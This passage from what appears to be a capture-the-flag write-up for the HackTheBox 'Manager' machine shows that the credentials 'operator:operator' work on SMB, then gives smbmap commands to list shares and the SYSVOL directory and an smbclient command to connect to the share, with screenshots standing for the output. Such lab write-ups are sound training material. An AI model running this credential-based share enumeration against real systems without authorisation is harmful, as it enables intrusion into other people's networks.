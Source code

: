 `operator:operator` is a good username and password to signin in SMB share:

Enumerate folder and files to which we have access with these credentials:

```bash
smbmap -u "operator" -p "operator" -H manager.htb 
```

<figure><img src="../../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>

Traverse the directory SYSVOL and go inside manager.htb directory:

```bash
smbmap -u "operator" -p "operator" -r SYSVOL -H manager.htb 
```

<figure><img src="../../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

Access the SYSVOL share:

```bash
smbclient //10.10.11.236/SYSVOL -U operator%operator
```
